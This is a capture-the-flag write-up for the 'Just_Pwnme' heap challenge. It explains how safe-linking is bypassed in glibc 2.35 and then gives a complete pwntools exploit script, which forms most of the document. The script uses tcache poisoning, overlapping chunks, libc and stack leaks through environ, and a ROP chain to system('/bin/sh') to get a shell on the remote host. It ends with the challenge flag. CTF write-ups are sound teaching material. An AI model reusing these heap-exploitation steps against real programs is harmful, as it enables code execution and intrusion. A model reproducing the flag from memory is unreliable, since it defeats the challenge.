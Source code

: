 # Just_Pwnme

# Description
![](./Description.png)

# Checksec

```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled
```
Got table is not writable.
# Analysis

This is a typical heap challenge where you can allocate, edit, print and free chunk of the heap,<br>
```
$ ./chall
0) Allocate a chunk
1) Free a chunk
2) Print a chunk
3) Edit a chunk
4) Exit
[*] choice :
```
Except it had couple restrictions:<br>
 * The maximum size of allocation is limited to 0x100 == 256 bytes.<br>
 meaning we can't directly allocate a large chunk then free it to leak the main_arena pointer.<br>
 * The allocation pointer array has only 2 slots, so we can only keep track of 2 chunks at the time.<br>
 meaning we can't fill up t-cache to force using fast bin.<br>
 * The libc used is 2.35 which doesn't use free/malloc hooks, and uses safe-linking.<br>
 meaning we can't directly overwrite heap pointers, and there are no hook to overwrite to change the execution flow.<br>

On the good side, we had a UAF so we can edit/print a free chunk and we had unlimited number of allocations,<br>
and that's more than enough to pwn a binary :)<br>

# TL;DR
 * Defeat safe-linking by leaking the Heap address from the first t-cache entry.<br>
 * Use t-cache poisoning to create 2 overlapping chuncks in the heap.<br>
 * Overwrite the overlapped chunk's size to a large size, then free it to leak libc address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with environ pointer and leak stack address.<br>
 * Use t-cache poisoning to allocate a chunk overlapping with main return address on the stack.<br>
 * Overwrite main return address with a rop gadget to get a $hell.<br>

# Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("just-pwnme.bsides.shellmates.club", 443, ssl=True)
    return r


def allocate_chunk(r, index, size, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'0')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Size : ")
    r.sendline(bytes(str(size), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.sendline(data)


def free_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'1')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def print_chunk(r, index):
    r.recvuntil(b"choice : \n")
    r.sendline(b'2')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))


def edit_chunk(r, index, data):
    r.recvuntil(b"choice : \n")
    r.sendline(b'3')
    r.recvuntil(b"Index : ")
    r.sendline(bytes(str(index), 'utf-8'))
    r.recvuntil(b"Data : ")
    r.send(data)


def main():
    r = conn()

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks into t-cache
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Leak heap base from first t-cache chunk
    print_chunk(r, 0)
    heap = int.from_bytes(r.recv(numb=6).strip(), "little") << 12
    log.info(f"Leaking heap base address : {hex(heap)}")

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    heap_overlap = ((heap + 0x2c0) >> 12) ^ (heap+0x2b0)
    edit_chunk(r, 1, flat(p64(heap_overlap), b'\n'))

    # Allocate the first firs entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the previously allocated chunk
    allocate_chunk(r, 1, 16, b'aaa')

    # Edit the size of the overlaping chunk to a large bin size
    edit_chunk(r, 0, flat(p64(0), p64(0x421)))

    # Create additional chunck to pass "prev chunck in-use"
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 256, b'aaa')
    allocate_chunk(r, 0, 176, b'aaa')
    allocate_chunk(r, 0, 16, b'aaa')

    # Free the fake large chunk to leak main_arena address and calculate libc address
    free_chunk(r, 1)
    print_chunk(r, 1)
    libc.address = int.from_bytes(r.recv(numb=6).strip(), "little") - 0x219ce0
    log.info(f"Leaking libc base address : {hex(libc.address)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 16, b'aaa')
    allocate_chunk(r, 1, 16, b'aaa')

    # Free both chuncks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    environ = ((heap + 0x2d0) >> 12) ^ (libc.address + 0x221200-16)
    edit_chunk(r, 1, flat(p64(environ), b'\n'))

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 16, b'aaa')

    # Allocate a chunk overlapping with the environ variable of the dynamic linker
    allocate_chunk(r, 1, 16, b'a'*15)

    # Leak the envp stack pointer and calculate the return address pointer of main
    print_chunk(r, 1)
    r.recvline()
    main_ret_addr = int.from_bytes(r.recv(numb=6).strip(), "little") - 328 + 32
    log.info(f"Leaking main return address : {hex(main_ret_addr)}")

    # Allocate two chunks
    allocate_chunk(r, 0, 64, b'aaa')
    allocate_chunk(r, 1, 64, b'aaa')

    # Free both chunks
    free_chunk(r, 0)
    free_chunk(r, 1)

    # Overwrite the forward pointer of the second t-cache chunk
    # (encoding the pointer to bypass safe-linking)
    main_ret_addr = ((heap + 0x340) >> 12) ^ (main_ret_addr)
    edit_chunk(r, 1, flat(p64(main_ret_addr), b'\n'))

    # Prepare a rop gadget to execute "system("/bin/sh\0");"
    rop = ROP(libc)
    binsh = next(libc.search(b"/bin/sh\x00"))
    ret = rop.find_gadget(['ret']).address
    system = libc.symbols['system']
    poprdi = rop.find_gadget(["pop rdi", "ret"]).address
    payload = flat(main_ret_addr, ret, poprdi, binsh, system)

    # Allocate the first entry in t-cache
    allocate_chunk(r, 1, 64, b'aaa')

    # Alocate a chunk overlapping with the main return address in the stack
    allocate_chunk(r, 1, 64, payload)

    # Exit to make main return and get a shell
    r.recvuntil(b"choice : \n")
    r.sendline(b'4')
    log.info("Enjoy your $hell ;)")
    r.interactive()


if __name__ == "__main__":
    main()
```
# Flag

```
shellmates{S3E_Y0U_DONt_n33d_H00Ks_TO_pWN_the_HeAP}
```
